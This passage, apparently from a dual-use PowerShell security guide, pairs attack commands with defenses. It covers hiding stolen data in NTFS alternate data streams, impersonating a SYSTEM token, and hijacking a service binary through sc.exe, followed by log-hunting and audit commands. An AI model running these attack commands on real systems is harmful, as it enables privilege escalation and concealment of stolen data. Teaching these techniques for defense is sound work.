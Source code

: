 #### **B. Steganography with NTFS Streams**
```powershell
# Hide data in image Alternate Data Streams
Add-Content -Path "C:\image.jpg" -Value (Get-Content C:\secrets.txt) -Stream "HiddenData"
```
- **Purpose**: Stores stolen data in ADS to evade casual inspection.
- **Defense**:  
  ```powershell
  # Detect ADS streams
  Get-Item -Path C:\image.jpg -Stream *
  ```

---

### **5. Privilege Escalation**
#### **A. Token Impersonation**
```powershell
# Steal SYSTEM token (like Linux SUID abuse)
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
```
- **Purpose**: Gain SYSTEM-level privileges.
- **Defense**: Restrict `SeDebugPrivilege` via Group Policy.

#### **B. Service Binary Hijacking**
```powershell
# Replace a service binary
sc.exe config VulnerableService binPath= "C:\malware.exe"
sc.exe start VulnerableService
```
- **Purpose**: Execute code as SYSTEM.
- **Defense**:  
  ```powershell
  # Audit service binaries
  Get-WmiObject -Class Win32_Service | Select-Object Name, PathName
  ```

---

### **6. Defense & Detection**
#### **A. Hunt for Malicious PowerShell Activity**
```powershell
# Find encoded commands in logs
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | 
  Where-Object { $_.Message -match "EncodedCommand" }
```

#### **B. Enable Deep Process Monitoring**
```powershell
# Log all process creations (like auditd in Linux)
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\System\Audit" -Name "ProcessCreationIncludeCmdLine_Enabled" -Value 1
```

---